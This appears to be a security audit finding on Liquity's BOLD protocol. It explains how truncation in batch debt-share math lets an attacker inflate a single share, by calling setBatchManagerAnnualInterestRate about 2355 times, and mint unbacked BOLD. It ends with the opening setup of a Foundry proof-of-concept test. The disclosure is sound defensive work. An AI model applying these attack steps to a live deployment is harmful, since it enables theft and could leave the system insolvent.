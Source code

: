 ```solidity
            _latestTroveData.recordedDebt = _latestBatchData.recordedDebt * batchDebtShares / totalDebtShares;

```

The way the new shares is calculated when a Trove increases its debt is as follows:
https://github.com/liquity/bold/blob/a34960222df5061fa7c0213df5d20626adf3ecc4/contracts/src/TroveManager.sol#L1748-L1749

```solidity
                    batchDebtSharesDelta = currentBatchDebtShares * debtIncrease / _batchDebt;

```

The exploit uses the truncation in `batchDebtSharesDelta` and is fully explain in #39

## Impact

From the preconditions described in #40, we do the following:
- Rebase the 1 share to have 100+ debt (we need a value that will result in debt growth when we charge the Batch Update Fee)
- Start charging upfront fees to it (which compound, hence they will grow faster than us abusing rounding errors)
- We need to spam `setBatchManagerAnnualInterestRate` on each block, until the 1 share is worth more than MIN_DEBT + Open fee of debt
- This can be achieved by calling `setBatchManagerAnnualInterestRate` `2355` times

The preconditions are pretty specific and can technically be blocked by anyone joining a specific Batch

However, the cost of the attack is zero, the attack can be setup by all actors at all times and the result of the attack is the ability to mint an infinite amount of bold a zero cost to the attacker, leading me to believe that this is a high severity impact that requires rethinking the Batch Shares math


## Complete POC

The following POC chains all of the concepts above, as well as from #41 and #40 to perform free borrows that will cause the system to go underwater

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.18;

import "./TestContracts/DevTestSetup.sol";

contract Redemptions is DevTestSetup {


    bool WITH_INTEREST = true; // Do we need to tick some interest to cause a rounding error?

    // forge test --match-test test_alex_batchRebaseToSystemInsolvency -vv
    function test_alex_batchRebaseToSystemInsolvency() public{
        // === EXTRA SETUP === //
        // Open Trove
        priceFeed.setPrice(2000e18);
        // Extra Debt (irrelevant / Used to not use deal)
        uint256 CTroveId = openTroveNoHints100pct(C, 100 ether, 100e21, MAX_ANNUAL_INTEREST_RATE);
        vm.startPrank(C);
        boldToken.transfer(A, boldToken.balanceOf(C));
        vm.stopPrank();


        // === 1: Setup Batch Rebase === ///
```